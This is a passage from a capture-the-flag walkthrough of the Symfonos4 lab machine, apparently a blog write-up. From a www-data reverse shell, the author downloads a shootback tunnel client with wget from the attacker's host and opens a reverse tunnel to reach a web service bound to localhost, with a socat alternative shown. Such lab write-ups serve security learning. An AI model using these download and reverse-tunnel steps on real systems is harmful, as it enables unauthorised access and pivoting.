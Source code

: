     www-data@symfonos4:/$ ss -tulpn
    Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   
    udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*      
    tcp     LISTEN   0        80             127.0.0.1:3306          0.0.0.0:*      
    tcp     LISTEN   0        128            127.0.0.1:8080          0.0.0.0:*      
    tcp     LISTEN   0        128              0.0.0.0:22            0.0.0.0:*      
    tcp     LISTEN   0        128                    *:80                  *:*      
    tcp     LISTEN   0        128                 [::]:22               [::]:*  
    
A webserver on 8080! Interesting. This didn't show up on our Nmap scan, as it's binding to localhost. Therefore, we can't really connect to it (much like MySQL as well) nor can we modify the bind configs as that's controlled in a file owned by `root`.

Except... we can. For this CTF, I opted to use [`shootback`](https://github.com/aploium/shootback), and open source and (pretty) friendly reverse TCP tunnel. Tools like this would bypass any firewalls on the host system (in this case, there weren't any, but we aren't always as lucky). Other tools like [`socat`](https://linux.die.net/man/1/socat) could have been used as well (e.g. `socat TCP-LISTEN:8001,fork,reuseaddr tcp:127.0.0.1:8080 &`), which would have probably simplified the below steps. Use whichever you like more.

We'll clone the repo to our Kali machine, build the slaver, and get that ready to be copied over:

    root@kali /tmp/sym4 # git clone https://github.com/aploium/shootback.git
    Cloning into 'shootback'...
    < ... >
    Resolving deltas: 100% (161/161), done.
    root@kali /tmp/sym4 # cd shootback
    root@kali /tmp/sym4/shootback # python3 ./build_singlefile_slaver.py 
    generate complete!
    output file: /tmp/sym4/shootback/slaver_singlefile.py
    root@kali /tmp/sym4/shootback # mv slaver_singlefile.py ../slaver.py
    
Our HTTP server is still running, so let's copy that over. On our reverse shell:

    www-data@symfonos4:/$ cd /tmp
    www-data@symfonos4:/tmp$ wget http://192.168.56.102:8000/slaver.py
    
You'll notice we're once again using `/tmp`, because we can actually write to it as `www-data`. Once all the files are in place, let's get our reverse TCP connection running. As always, we background our tasks.    

    # On Kali machine (host)
    python3 master.py -m 0.0.0.0:1235 -c 0.0.0.0:8001 &
    
    # On the VM reverse shell (background it!)
    python slaver.py -m 192.168.56.102:1235 -t 127.0.0.1:8080 &
    
We have our TCP session open, and we can now access the web app at `192.168.56.102:8001`. If we go to that, we get redirected to a page `/whoami`:
